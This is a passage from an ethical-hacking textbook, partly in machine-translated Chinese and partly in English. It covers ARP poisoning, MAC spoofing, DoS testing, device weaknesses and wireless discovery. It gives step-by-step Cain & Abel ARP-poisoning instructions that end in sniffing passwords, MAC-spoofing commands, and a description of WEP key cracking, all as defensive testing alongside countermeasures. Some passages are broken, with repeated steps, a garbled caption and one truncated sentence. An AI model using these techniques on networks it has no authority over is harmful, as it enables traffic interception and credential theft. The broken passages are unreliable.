查看你的网络统计信息（如每秒字节数、网络利用率以及入站/出站数据包数量）是另一种确定是否有异常情况的好方法。Figure 9-9 通过强大的 CommView 网络分析器查看网络统计信息。



FIGURE 9-9:  CommView 的界面用于查看网络统计信息

TamoSoft（CommView 的开发商）还有一个名为 NetResident 的产品（[`https://www.tamos.com/products/commview`](https://www.tamos.com/products/commview)），可以跟踪常见协议的使用情况，如 HTTP、电子邮件、FTP 和 Voice over Internet Protocol（VoIP）。如 Figure 9-10 所示，你可以使用 NetResident 监控 Web 会话并回放它们。



FIGURE 9-10:  NetResident 可以跟踪 Internet 使用并确保安全策略得到执行。

NetResident 还能通过其 PromiSwitch 工具（在工具菜单中可用）进行 ARP 中毒，这使得 NetResident 能够看到本地网络段上的所有流量。我在本章后面的“The MAC-daddy attack”中会介绍 ARP 中毒。

#### 对网络协议漏洞的防范措施

网络分析器可以用于善意或恶意。善意确保你的安全策略得到遵守，恶意则帮助对手针对你进行攻击。几种防范措施可以帮助降低有人使用未经授权网络分析器的风险。请记住，完全防止它是不可能的。

如果外部攻击者或恶意用户能够物理或无线方式连接到你的网络，他可以捕获网络上的数据包，即使你使用的是以太网交换机。

#### 物理安全

确保已采取适当的物理安全措施，防止有人通过插入网线接入你的网络，具体做法包括：

*   **将坏人挡在服务器室和布线间隔之外。** 确保以太网交换机上的 Web、Telnet 和 Secure Shell（SSH）管理界面尤其安全，防止有人更改交换机端口配置并窃听所有经过的流量。

*   **确保未受监督的区域（如空置的大堂或培训室）没有活动的网络连接。**

有关物理安全的详细信息，请参见 Chapter 7。

#### 网络分析器检测

你可以使用一些较旧的工具来判断是否有人在你的网络上运行未经授权的网络分析器：

*   **Sniffdet** ([`http://sniffdet.sourceforge.net`](http://sniffdet.sourceforge.net)) 用于类 Unix 系统。

*   **PromiscDetect** ([`http://ntsecurity.nu/toolbox/promiscdetect`](http://ntsecurity.nu/toolbox/promiscdetect)) 用于 Windows。

某些 IPS 也能够检测网络分析器是否在你的网络上运行。这些工具可以监控网络中处于混杂模式的以太网卡。你只需在电脑上加载这些程序，它们会在检测到网络中出现混杂行为（Sniffdet）或本地系统（PromiscDetect）时发出警报。

### The MAC-daddy attack

攻击者可以利用网络中的 ARP（地址分辨率协议）使他们的系统看起来像是你的系统或网络中另一台受信任的主机。

#### ARP spoofing

大量的 ARP 请求可能是 *ARP spoofing*（也称为 *ARP poisoning*）攻击的迹象。

运行诸如 dsniff（[`https://www.monkey.org/~dugsong/dsniff`](https://www.monkey.org/~dugsong/dsniff)）或 Cain & Abel 的客户端可以修改 ARP 表——这些表存储 IP 地址到媒体访问控制（MAC）地址的映射。修改 ARP 表会导致受害计算机在网络通信时，错误地将流量发送到攻击者的机器，而不是真正的目的主机。ARP spoofing 常用于中间人攻击。

伪造的 ARP 回复可以发送到交换机，使其回退到广播模式，基本上把交换机变成集线器。发生这种攻击时，攻击者能够截获交换机上所有经过的数据包，捕获网络上的任何内容。

此安全漏洞源于 TCP/IP 通信处理方式本身的固有缺陷。

下面是一个典型的 ARP 中毒攻击示例，涉及攻击者的电脑（Hacky）和两个合法用户的电脑（Joe 和 Bob）：

1.  Hacky 使用诸如 dsniff、ettercap 或 netcat 等工具中毒化受害者 Joe 和 Bob 的 ARP 缓存。

2.  Joe 将 Hacky 的 MAC 地址与 Bob 的 IP 地址关联。

3.  Bob 将 Hacky 的 MAC 地址与 Joe 的 IP 地址关联。

4.  Joe 的流量和 Bob 的流量首先发送到 Hacky 的 IP 地址。

5.  Hacky 的网络分析器捕获 Joe 的和 Bob 的流量。

如果 Hacky 配置为像路由器一样转发数据包，它会将流量转发到原始目的地。发送方和接收方毫无察觉！

#### 使用 Cain & Abel 进行 ARP 中毒

你可以在交换以太网网络上使用 Cain & Abel 进行 ARP 中毒，以测试你的 IPS 或观察交换机如何被转换为集线器并被网络分析器捕获。

ARP 中毒可能对网络硬件和健康造成危害，导致停机甚至更严重的后果。请小心！

使用 Cain & Abel 进行 ARP 中毒的步骤如下：

1.  **加载 Cain & Abel，然后点击 Sniffer 标签进入网络分析器模式。** 默认会打开 Hosts 页面。

2.  **点击黄黑相间的圆形图标（Start/Stop APR）启动 ARP 中毒路由过程并启用内置嗅探器。**

3.  **如果系统提示，选择出现的窗口中的网络适配器，然后点击 OK。**

4.  **点击蓝色加号（+）图标，将要进行 ARP 中毒的主机添加进去。**

5.  **在 MAC Address Scanner 窗口中，确保选中 “All Hosts in My Subnet” 选项，然后点击 OK。**

6.  **点击 APR 标签（带有黄黑圆形图标）加载 APR 页面。**

7.  **在 “Status” 列标题下方的空白区域点击，重新启用蓝色加号。**

8.  **点击蓝色加号。** “New ARP Poison Routing” 窗口会显示步骤 4 中发现的主机。

9.  **Ctrl+单击右侧列中你想中毒的所有主机。** 右侧列会填充剩余的所有主机，如 Figure 9-11 所示。

10. **按 Ctrl+点击右侧列中想要中毒的所有主机。**

11. **点击 OK 开始 ARP 中毒过程。** 根据网络硬件和每个主机的本地 TCP/IP 栈，该过程可能需要几秒到几分钟。Figure 9-12 展示了我在测试网络上进行 ARP 中毒的结果。

12. **点击 Passwords 标签，使用内置密码功能捕获 traversing 网络的各种主机之间的密码。** 




-   选择你的受害者主机以进行 Cain & Abel 中的 ARP 欺骗 a, b, c, d; 2. c; 3. d; 4. e; f



FIGURE 9-12: ARP poisoning results in Cain & Abel

The preceding steps show how easy it is to exploit a vulnerability and prove that Ethernet switches aren’t all they’re cracked up to be from a security perspective.

#### MAC address spoofing

MAC address spoofing tricks the switch into thinking that your computer is something else. You simply change your computer’s MAC address and masquerade as another user.

You can use this trick to test access control systems, such as your IPS/firewall and even your operating-system login controls that check for specific MAC addresses.

#### LINUX-BASED SYSTEMS

In Linux (and Unix), you can spoof MAC addresses with the ifconfig utility. Follow these steps:

1. **While you’re logged in as root, use ifconfig to enter a command that disables the network interface.**

    Insert the network interface number that you want to disable (usually, eth0) into the command, like this:

    `[root@localhost root]# ifconfig eth0 down`

2. **Enter a command for the MAC address you want to use.**

    Insert the fake MAC address and the network interface number (eth0) into the command again, like this:

    `[root@localhost root]# ifconfig eth0 hw ether new_mac_address`

You can use a more feature‑rich utility called GNU MAC Changer ([`https://github.com/alobbs/macchanger`](https://github.com/alobbs/macchanger)) for Linux systems.

#### WINDOWS

You can use regedit to edit the Windows Registry, but I like using a neat Windows utility called SMAC ([`www.klcconsulting.net/smac`](http://www.klcconsulting.net/smac)), which makes MAC spoofing a simple process. Follow these steps to use SMAC:

1. **Load the program.**

2. **Select the adapter for which you want to change the MAC address.**

3. **Enter the new MAC address in the New Spoofed MAC Address fields, and click the Update MAC button.**

4. **Stop and restart the network card with these steps:**

    1. *Right-click the network card in Network and Dialup Connections, and choose Disable from the contextual menu.*

    2. *Right-click again and then choose Enable from the contextual menu to make the change take effect.*

    You may have to reboot for this process to work properly.

5. **Click the Refresh button in the SMAC interface.**

To reverse Registry changes with SMAC, follow these steps:

1. **Select the adapter for which you want to change the MAC address.**

2. **Click the Remove MAC button.**

3. **Stop and restart the network card with these steps:**

    1. *Right-click the network card in Network and Dialup Connections, and choose Disable from the contextual menu.*

    2. *Right-click again and then choose Enable from the contextual menu to make the change take effect.*

    You may have to reboot for this process to work properly.

4. **Click the Refresh button in the SMAC interface.**

    You should see your original MAC address again.

#### Countermeasures against ARP poisoning and MAC address Spoofing attacks

A few countermeasures on your network can minimize the effects of an attack against ARP and MAC addresses:

*   **Prevention:** You can prevent MAC address spoofing if your switches can enable port security to prevent automatic changes in the MAC address tables.

    No realistic countermeasures for ARP poisoning exist. The only way to prevent ARP poisoning is to create and maintain static ARP entries in your switches for every host on the network — something that hardly any network administrator has time to do in today’s rat race.

*   **Detection:** You can detect these two types of hacks through an IPS or a stand‑alone MAC address‑monitoring utility.

### Testing denial of service attacks

Denial of service (DoS) attacks are among the most common hacker attacks. A hacker initiates so many invalid requests to a network host that the host uses all its resources to respond to the invalid requests and ignores the legitimate requests.

#### DoS attacks

DoS attacks against your network and hosts can cause systems to crash, data to be lost, and every user to jump on your case wondering when Internet access will be restored.

Here are some common DoS attacks that target an individual computer or network device:

*   **SYN floods:** The attacker floods a host with TCP SYN packets.

*   **Ping of Death:** The attacker sends IP packets that exceed the maximum length of 65,535 bytes, which can crash the TCP/IP stack on many operating systems.

*   **WinNuke:** This attack can disable networking on older Windows 95 and Windows NT computers.

Distributed denial of service (DDoS) attacks have an exponentially greater effect on their victims. One of the most famous attacks of this type was the DDoS attack against eBay, Yahoo!, CNN, and dozens of other websites by a hacker known as MafiaBoy. There have also been highly publicized DDoS attacks against Twitter, Facebook, and other social media sites. The attack apparently was aimed at one user from Georgia (the former Soviet country, not the state where I live), but it affected everyone who used these sites. I couldn’t tweet, and many of my friends and family members couldn’t see what everyone was blabbing about on Facebook (oh, the humanity!). Numerous other highly publicized DDoS attacks have occurred since then. Think about this: When hundreds of millions of people can be taken offline by one targeted DDoS attack, you can see why understanding the dangers of DoS attacks against your business’s systems and applications is important.

#### Testing

DoS testing is one of the most difficult security checks you can run. There just aren’t enough of you and your computers to go around. Don’t fret. You can run a few tests to see where you’re weak. Your first test should be a search for DoS vulnerabilities from a vulnerability‑scanning perspective. By using vulnerability scanners, such as Nexpose ([`https://www.rapid7.com/products/nexpose`](https://www.rapid7.com/products/nexpose)) and AppSpider ([`https://www.rapid7.com/products/appspider`](https://www.rapid7.com/products/appspider)), you can find missing patches and configuration weaknesses that can lead to DoS. A Cisco router‑related tool called Synful Knock Scanner ([`http://talosintel.com/scanner`](http://talosintel.com/scanner)) can test systems for the nasty SYNful Knock malware that was discovered in 2015.

Whichever one you use, good scanners and exploitation tools will save you a ton of time and effort that you can spend on other, more!! e!!! !<ref>


Use an IPS to monitor regularly for DoS attacks. You can run a network analyzer in continuous capture mode if you can’t justify the cost of an all-out IPS solution and use it to monitor for DoS attacks.

Configure firewalls and routers to block malformed traffic. You can enact this countermeasure only if your systems support it, so refer to your administrator’s guide for details.

Minimize IP spoofing by filtering out external packets that appear to come from an internal address, the local host (127.0.0.1), or any other private and nonroutable address, such as 10.x.x.x, 172.16.x.x–172.31.x.x, or 192.168.x.x. The following paper from Cisco Systems provides more information: [`https://www.cisco.com/web/about/ac123/ac147/archived_issues/ipj_10-4/104_ip-spoofing.html`](https://www.cisco.com/web/about/ac123/ac147/archived_issues/ipj_10-4/104_ip-spoofing.html).

Block all ICMP traffic inbound to your network unless you specifically need it. Even then, you should allow it to come in only to specific hosts.

Disable all unneeded TCP/UDP small services, such as echo and chargen.

Establish a baseline of your network protocols and traffic patterns before a DoS attack occurs. That way, you know what to look for. Also, periodically scan for such potential DoS vulnerabilities as rogue DoS software installed on network hosts.

If you get yourself in a real bind and end up under direct DoS assault, you can reach out to managed service vendors such as Imperva Incapsula ([`https://www.incapsula.com/`](https://www.incapsula.com/)), Cloudflare ([`https://www.cloudflare.com/`](https://www.cloudflare.com/)), and DOSarrest ([`https://www.dosarrest.com/`](https://www.dosarrest.com/)).

Work with a `minimum necessary` mentality (not to be confused with having too many craft beers) when configuring your network devices, such as firewalls and routers. Identify traffic that’s necessary for approved network use. Allow the traffic that’s needed. Deny all other traffic.

If worst comes to worst, ask your Internet service provider whether it can block DoS attacks from its end.

## Detecting Common Router, Switch, and Firewall Weaknesses

In addition to the technical exploits that I cover in this chapter, some high-level security vulnerabilities commonly found on network devices can create many problems.

### Finding unsecured interfaces

You want to ensure that HTTP and Telnet interfaces to your routers, switches, and firewall aren’t configured with a blank, default, or otherwise easy-to-guess password. This advice sounds like a no-brainer, but it’s one of the most common weaknesses. When a malicious insider or other attacker gains access to your network devices, he owns the network. Then he can lock out administrative access, set up backdoor user accounts, reconfigure ports, and even bring down the entire network without your ever knowing.

I once found a simple password that a systems integrator configured on a Cisco ASA firewall and was able to log in to the firewall with full administrative rights. Just imagine what could happen in this situation if someone with malicious intent came across this password. Lesson learned: The little things can get you. Know what your vendors are doing, and keep an eye on them!

Another weakness is related to HTTP, FTP, and Telnet being enabled and used on many network devices. Care to guess why this situation is a problem? Well, anyone with some free tools and a few minutes of time can sniff the network and capture login credentials for these systems when they’re being sent in clear text. When that happens, anything goes.

### Uncovering issues with SSL and TLS

Secure Sockets Layer (SSL) and Transport Layer Security (TLS) were long touted as *the* solutions for securing network communications. Recently, however, SSL and TLS have come under fire from demonstrable exploits such as Heartbleed, Padding Oracle On Downgraded Legacy Encryption (POODLE), and Factoring Attack on RSA-EXPORT Keys (FREAK).

General security vulnerabilities related to SSL and TLS are often uncovered by vulnerability scanners such as Nexpose and Netsparker. In addition to the preceding SSL/TLS vulnerabilities, be on the lookout for the following flaws:

*   SSL versions 2 or 3 and TLS versions 1.0 or 1.1 in use

*   Weak encryption ciphers such as RC4 and SHA-1

If you’re unsure about existing SSL and TLS vulnerabilities on your systems, you don’t have to use a vulnerability scanner. Qualys has a nice website called SSL Labs ([`https://www.ssllabs.com/`](https://www.ssllabs.com/)) that will scan for these vulnerabilities for you.

I didn’t used to be too concerned about SSL- and TLS-related vulnerabilities, but as security researchers and criminal hackers have been demonstrating, the threat is real and needs to be addressed.

## Putting Up General Network Defenses

Regardless of specific attacks against your system, a few good practices can prevent many network problems: 

*   **Use stateful inspection rules that monitor traffic sessions for firewalls.** This practice can help ensure that all traffic traversing the firewall is legitimate and can prevent DoS attacks and other spoofing attacks.

*   **Implement rules to perform packet filtering** based on traffic type, TCP/UDP ports, IP addresses, and even specific interfaces on your routers before the traffic is allowed to enter your network.

*   **Use proxy filtering and Network Address Translation (NAT) or Port Address Translation (PAT).**

*   **Find and eliminate fragmented packets entering your network** (from Fraggle or another type of attack) via an IPS.

*   **Include your network devices in your vulnerability scans.**

*   **Ensure that your network devices have the latest vendor firmware and patches applied.**

*   **Set strong passwords (or, better, passphrases) on all network systems.** I cover passwords in detail in Chapter 8.

*   **Don’t use Internet Key Exchange (IKE) aggressive mode preshared keys for your virtual private network.** If you must, ensure that the passphrase is strong and changed periodically (such as every 6 to 12 months).

*   **Always use TLS (via HTTPS and so on) or SSH when connecting to network devices.**

*   **Disable SSL and weak ciphers, and use TLS version 1.2 and strong ciphers such as SHA-2 where possible.**

*   **Segment the network, and use a firewall on the following:** 

    *   The DMZ

    *   The internal network

    *   Critical subnetworks broken down by business function or department, such as accounting, finance, human resources, and research

Chapter 10

## Wireless Networks

IN THIS CHAPTER

**Understanding the risks of wireless networks**

**Selecting wireless network hacking tools**

**Cracking wireless encryption**

**Minimizing wireless network risks**

Wireless local area networks (or Wi-Fi) — specifically, the ones based on the IEEE 802.11 standard — are deployed in many business and home network. Wi-Fi was the poster child for weak security and network attacks since the inception of 802.11. The stigma of unsecure Wi-Fi is starting to wane, but now isn’t the time to lower your defenses.

Wi-Fi offers a ton of business value, from convenience to reduced network deployment time. Whether or not your organization allows wireless network access, you probably have it, so testing for Wi-Fi security vulnerabilities is critical.

In this chapter, I cover some common wireless network security vulnerabilities that you should test for, and I discuss some cheap, easy countermeasures that you can implement to ensure that Wi-Fi isn’t more of a risk to your organization than it’s worth.

## Understanding the Implications of Wireless Network Vulnerabilities


Wi‑Fi 易受攻击 —  — 有时甚至比有线网络（如 第 9 章 讨论的）更易受攻击，如果未正确配置和部署。无线网络可能存在长期漏洞，使攻击者能够将你的网络击垮，或让敏感信息在“空中”被提取。如果你的无线网络被入侵，你可能会遇到以下问题：

* 失去网络访问权，包括电子邮件、网页和其他服务，可能导致业务停机。

* 失去敏感信息，包括密码、客户数据和知识产权。

* 因未经授权的用户访问业务系统而产生的监管后果和法律责任。

大多数无线漏洞来源于 802.11 标准的实现。无线接入点（路由器）和无线终端系统也可能存在漏洞。

近年来出现了许多针对这些漏洞的修复措施，但许多修复未能正确应用或默认未启用。此外，员工可能在未经你知晓的情况下在网络上安装野生无线设备。还有“免费” Wi‑Fi 无处不在 —  — 你的移动员工去的咖啡店、酒店、会议中心甚至飞机上的无线网络，这些公共 Wi‑Fi 可能对整体信息安全构成严重威胁，而且很难应对。即使 Wi‑Fi 已加固且所有最新补丁已应用，你仍可能面临服务拒绝（DoS）、中间人攻击以及加密密钥弱点（如有线网络的情况；参见 第 9 章），这些问题可能会长期存在。

## 选择你的工具

为 Windows 和 Linux 平台提供了多种优秀的无线安全工具。早期的 Linux 无线工具配置和使用较为困难，可能是因为我本身不够聪明。近年来，随着 Kismet（[`https://www.kismetwireless.net`](https://www.kismetwireless.net)）、Wellenreiter（[`https://sourceforge.net/projects/wellenreiter`](https://sourceforge.net/projects/wellenreiter)）以及 Kali Linux（[`https://www.kali.org`](https://www.kali.org/)）等程序的出现，这一局面已有所改变。

如果你想使用运行在 Linux 上的安全工具的强大功能，但不想花费时间安装和配置 Linux 或下载设置众多流行的安全工具，我强烈推荐使用 Kali Linux。该可启动的 Debian‑基础安全测试套件预装了相对易用的大量工具。其他可启动（或 Live）测试套件还包括基于 Fedora Linux 的 Network Security Toolkit（[`www.networksecuritytoolkit.org`](http://www.networksecuritytoolkit.org)）。完整的 Live 启动 Linux 工具列表可查阅 [`www.livecdlist.com`](http://www.livecdlist.com)。

本章概述的大多数测试只需 Windows‑基础实用工具，但使用你最熟悉的平台会获得更好结果。我最喜欢的用于评估无线网络的 Windows 工具包括：

* Aircrack-ng（[`http://aircrack-ng.org`](http://aircrack-ng.org)）

* CommView for WiFi（[`https://www.tamos.com/products/commwifi`](https://www.tamos.com/products/commwifi)）

* ElcomSoft Wireless Security Auditor（[`https://www.elcomsoft.com/ewsa.html`](https://www.elcomsoft.com/ewsa.html)）

* Omnipeek（[`www.savvius.com`](http://www.savvius.com)）

你也可以使用便携式无线安全测试设备，例如 Canary Wireless 的 Digital Hotspotter（[`www.canarywireless.com`](http://www.canarywireless.com)），甚至可以使用 Android 手机或平板上的 WiEye 或 Wifi Analyzer 等应用，或 iOS 设备上的 Network Analyzer Pro 和 Network Multimeter。此外，还应考虑外置天线作为你的装备之一。我曾经在没有天线的情况下运行测试并取得良好结果，但实际效果取决于你距离信号的远近。如果你在现场进行无线信号踏勘，使用额外天线可以提高发现合法及（更重要的）未经授权无线系统的机会，但通常并不必需。你可以在三种类型的无线天线中选择：

* **全向性（Omnidirectional）**：在 360 度范围内传输和接收无线信号，适用于会议室或接待区等较短距离场景。此类天线（也称为 *dipole*）通常已在出厂的接入点（AP）上预装。

* **半向性（Semidirectional）**：在中等距离内方向聚焦传输和接收无线信号，适用于走廊或办公楼/建筑的一侧。

* **定向性（Directional）**：在长距离内高度聚焦传输和接收无线信号，适用于建筑物之间的链接。此类天线（也称为高增益天线）是无线黑客在城市巡逻寻找弱点接入点（即 *wardriving*）时首选。

作为前述天线的替代方案，你可以使用一种名为 *cantenna* 的巧妙设计 —  — 用土豆片、咖啡罐或猪肉罐制成的创意天线。如果你想尝试这种天线，可参考 [`www.turnpoint.net/wireless/has.html`](http://www.turnpoint.net/wireless/has.html) 的文章获取详细信息。简单的 Internet 搜索会提供大量相关信息，供有兴趣的读者参考。

## 发现无线网络

当你拥有无线卡和无线测试软件时，即可开始操作。首要任务是收集关于你无线网络的信息，具体方法如下章节所述。务必在生产无线网络、访客无线网络以及你可能使用的测试无线系统上进行这些检查 —  — 你永远不知道漏洞就在哪里！

### 检查全球认可度

第一项测试只需你的接入点（AP）的媒体访问控制（MAC）地址以及 Internet 访问权限。（有关 MAC 地址的更多信息请参见本章后的 “MAC 伪造”。）该测试旨在判断是否有人在公开场合发现了你的 Wi‑Fi 信号并将其发布供全世界查看。具体步骤如下：

1. **获取 AP 的 MAC 地址。**

   如果不确定 AP 的 MAC 地址，可以在 Windows 命令提示符中使用 `arp -a` 命令查看。你可能需要先向接入点的 IP 地址发送 ping，使其 MAC 地址加载到地址解析协议（ARP）缓存中。图 10-1（`#c10-fig-0001`）展示了这一过程的示例。

2. **在 WiGLE 数据库（`https://wigle.net`）中浏览。**

3. **注册站点以便进行数据库查询。**

   进行此查询很有价值。

4. **点击网站右上角的“Login”链接，选择“View”，然后选择“Search”。**

   你会看到类似于图 10-2（`#c10-fig-0002`）的界面。

5. **在图 10-2 中的 BSSID/MAC 文本框里输入你的 MAC 地址格式。**

   你也可以输入地理坐标和 SSID（服务集标识符）等 AP 信息。


If your AP is listed, someone has discovered it — most likely via wardriving — and has posted the information for others to see. You need to start implementing the security countermeasures listed in this chapter as soon as possible to keep others from using this information against you!



FIGURE 10-1:  Finding the MAC address of an AP by using arp.



FIGURE 10-2:  Searching for your wireless APs by using the WiGLE database.

### Scanning your local airwaves

Monitor the airwaves around your building to see what authorized and unauthorized APs you can find. You’re looking for the SSID, which is your wireless network name. If you have multiple and separate wireless networks, each one may have a unique SSID associated with it.

You can get started with a tool such as NetStumbler ([`www.netstumbler.com/downloads`](http://www.netstumbler.com/downloads)). NetStumbler can discover SSIDs and other detailed information about wireless APs, including the following:

*   `MAC address`

*   `Name`

*   `Radio channel` in use

*   `Vendor name`

*   Whether `encryption` is on or off

*   `RF signal strength` (signal-to-noise ratio)

NetStumbler is quite old and no longer maintained, but it still works. Another tool option is inSSIDer ([`https://www.metageek.com/products/inssider`](https://www.metageek.com/products/inssider)).

Figure 10-3 shows an example of what you might see when running NetStumbler in your environment. The information you see here is what others can see as long as they’re in range of your AP’s radio signals. NetStumbler and most other tools work by sending a probe-request signal from the client. Any APs within signal range must respond to the request with their SSIDs — that is, if they’re configured to broadcast their SSIDs upon request.



FIGURE 10-3:  NetStumbler displays detailed data on APs.

When you’re using wireless network analyzers, including Omnipeek and CommView for WiFi, your adapter may enter passive monitoring mode, and you can no longer communicate with other wireless hosts or APs while the program is loaded, which is a good thing.

## Discovering Wireless Network Attacks and Taking Countermeasures

Various malicious hacks — including DoS attacks — can be carried out against your wireless network, including forcing APs to reveal their SSIDs during the process of being disassociated from the network and rejoining. In addition, hackers can jam the signal of an AP — especially in 802.11b and 802.11g systems — and force the wireless clients to reassociate with a rogue AP masquerading as the victim AP.

Hackers can create man-in-the-middle attacks by using a tool such as the WiFi Pineapple ([`https://www.wifipineapple.com`](https://www.wifipineapple.com)). They can also flood your network with thousands of packets per second by using the raw-packet-generation tools Nping ([`https://nmap.org/nping`](https://nmap.org/nping)) and NetScanTools Pro ([`www.netscantools.com`](http://www.netscantools.com)) — enough to bring the network to its knees. Even more so than with wired networks, this type of DoS attack is very difficult to prevent on Wi‑Fi.

You can carry out several attacks against your wireless network. The associated countermeasures help protect your network from these vulnerabilities as well as from the malicious attacks I’ve mentioned. When testing your wireless network’s security, look out for the following weaknesses:

*   Unencrypted wireless traffic

*   Weak WEP, WPA, and WPA2 preshared keys

*   Crackable Wi‑Fi Protected Setup (WPS) PINs

*   Unauthorized APs

*   Easily circumvented MAC address controls

*   Wireless equipment that’s physically accessible

*   Default configuration settings

A good starting point for testing is attempting to attach to your network as an outsider and running a general vulnerability scanner tool, such as LanGuard or Nexpose. This test enables you to see what others can see on your network, including information on the operating-system version, open ports on your AP, and even network shares on wireless clients. Figure 10-4 shows the type of information that can be revealed about an AP on your network, including a missing administrator password, an outdated operating system, and open ports and shares that can be exploited.



FIGURE 10-4:  A LanGuard scan of a live AP.

### Encrypted traffic

Wireless traffic can be captured directly out of the airwaves, making this communications medium susceptible to eavesdropping. Unless the traffic is encrypted, it’s sent and received in clear text, just as on a standard wired network. Alsp, the 802.11 encryption protocols, Wired Equivalent Privacy (WEP) — yep, it’s still around — and Wi‑Fi Protected Access (WPA and WPA2) have their own weaknesses that allow attackers to crack the encryption keys and decrypt the captured traffic. This vulnerability has helped put Wi‑Fi on the map, so to speak.

WEP, in a certain sense, actually liveds up to its name: It provides privacy equivalent to that of a wired network and then some. It wasn’t intended to be cracked so easily, however. WEP uses a fairly strong symmetric (shared-key) encryption algorithm called RC4. Hackers can observe encrypted wireless traffic and recover the WEP key because of a flaw in the way that the RC4 initialization vector (IV) is implemented in the protocol. This weakness occurs because the IV is only 24 bits long, which causes it to repeat every 16.7 million packets — even sooner in many cases, based on the number of wireless clients entering and leaving the network.

Most WEP implementations initialize wireless hardware with an IV of 0 and increment it by 1 for each packet sent, which can lead to the IVs reinitializing (starting over at 0) approximately every five hours. Given this behavior, Wi‑Fi networks that have a lower amount of use can be more secure than large Wi‑Fi environments that transmit a lot of wireless data because there’s simply not enough wireless traffic being generated.

Using WEPCrack ([`https://sourceforge.net/projects/wepcrack`](https://sourceforge.net/projects/wepcrack)) or Aircrack-ng ([`https://aircrack-ng.org`](https://aircrack-ng.org)), attackers need to collect only a few minutes’ or a few days’ worth of packets (depending on how much wireless traffic is on the network) to break the WEP key. Figure 10-5 shows airodump-ng (which is part of the Aircrack-ng suite) capturing WEP initialization vectors, and Figure 10-6 shows aircrack’s airodump at work cracking the WEP key of my test network.

